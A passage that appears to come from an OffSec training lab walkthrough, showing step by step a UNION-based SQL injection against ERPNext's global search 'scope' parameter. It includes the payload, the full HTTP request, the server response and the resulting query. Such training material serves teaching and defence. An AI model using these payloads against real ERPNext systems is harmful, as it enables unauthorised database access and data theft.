 
With the scope variable set, we can pull the SQL command again from either the database logs or the breakpoint set in the code.

SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0
Listing 33 - SQL query with scope variable

With the SQL command extracted, next we need to:

Terminate the double quote.
Add a UNION statement to be able to extract information.
Comment out the remaining SQL command.
Since the SQL query has five parameters (doctype, name, content, title, and route), we know that our UNION injection will have five parameters. The SQL injection payload can be found in Listing 34.

offsec_scope" UNION ALL SELECT 1,2,3,4,5#
Listing 34 - Initial SQL injection payload

The payload starts with the offsec_scope variable. Next, we'll terminate the double quote, add the UNION query that will return five numbers, and finally comment out the rest of the query with a "#" character. Let's send this payload and inspect the response.

```
POST / HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: None
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/
Cookie: user_image=; system_user=yes; user_id=Guest; full_name=Guest; sid=Guest

cmd=frappe.utils.global_search.web_search&text=offsec&scope=offsec_scope" UNION ALL SELECT 1,2,3,4,5#
```

The payload with the injection has the response shown in Listing 35. With this, we know where we can inject additional queries to pull necessary information.

{"message":[{"route":"5","content":"3","relevance":0,"name":"2","title":"4","doctype":"1"}]}
Listing 35 - Response to SQL injection

We can extract the SQL query again from the debugger or the database logs.

SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,5#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0
Listing 36 - SQL query with injection
